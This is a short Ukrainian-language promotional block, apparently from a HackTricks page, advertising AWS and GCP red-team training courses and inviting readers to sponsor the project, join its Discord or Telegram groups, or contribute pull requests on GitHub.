Вчіться та практикуйте AWS Hacking:[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)\
Вчіться та практикуйте GCP Hacking: [**HackTricks Training GCP Red Team Expert (GRTE)**](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>

